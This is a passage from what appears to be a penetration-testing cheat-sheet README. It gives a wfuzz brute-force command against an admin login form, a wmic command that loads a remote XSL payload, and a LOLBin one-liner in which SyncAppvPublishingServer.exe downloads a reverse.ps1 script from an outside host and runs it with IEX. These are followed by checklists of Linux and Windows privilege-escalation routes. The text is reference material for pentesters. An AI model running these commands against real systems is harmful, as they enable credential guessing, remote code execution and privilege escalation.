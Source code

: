 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
![powershellless2](https://user-images.githubusercontent.com/7115563/40374540-908e0ca8-5de9-11e8-9002-5f03193b10a5.png)

Include payload in xsl file

![powershellless3](https://user-images.githubusercontent.com/7115563/40374546-92dcda84-5de9-11e8-99c8-9066ae129644.png)

<pre>wmic process get brief /format:"https://raw.githubusercontent.com/adon90/pentest_compilation/master/nops.xsl"</pre>

![powershellless4](https://user-images.githubusercontent.com/7115563/40375266-73770028-5deb-11e8-92da-952692727bec.png)

<a name="lolbins"></a><h3>LOLBINS</h3>

<pre>SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://192.168.48.129:8000/reverse.ps1') | IEX"</pre>

![lolbin1](https://user-images.githubusercontent.com/7115563/40776727-ee904d00-64cb-11e8-8921-407581b13edf.png)

<a name="privesc"></a><h2> Privilege Escalation</h2>


<a name="linux"></a><h3> Linux Privilege Escalation </h3>

- sudo -l
- Kernel Exploits
- OS Exploits
- Password reuse (mysql, .bash_history, 000-default.conf...)
- Known binaries with suid flag and interactive (nmap)
- Custom binaries with suid flag either using other binaries or with command execution
- Writable files owned by root that get executed (cronjobs)
- MySQL as root
- Vulnerable services (chkrootkit, logrotate)
- Writable /etc/passwd
- Readable .bash_history
- SSH private key
- Listening ports on localhost
- /etc/fstab
- /etc/exports
- /var/mail
- Process as other user (root) executing something you have permissions to modify
- SSH public key + Predictable PRNG
- apt update hooking (Pre-Invoke)

<a name="windows"></a><h3> Windows Privilege Escalation </h3>

- Kernel Exploits
- OS Exploits
- Pass The Hash
- Password reuse
- DLL hijacking (Path)
- Vulnerable services
- Writable services binaries path
- Unquoted services
- Listening ports on localhost
- Registry keys


<a name="kernel"></a><h3> Kernel Exploits </h3>

```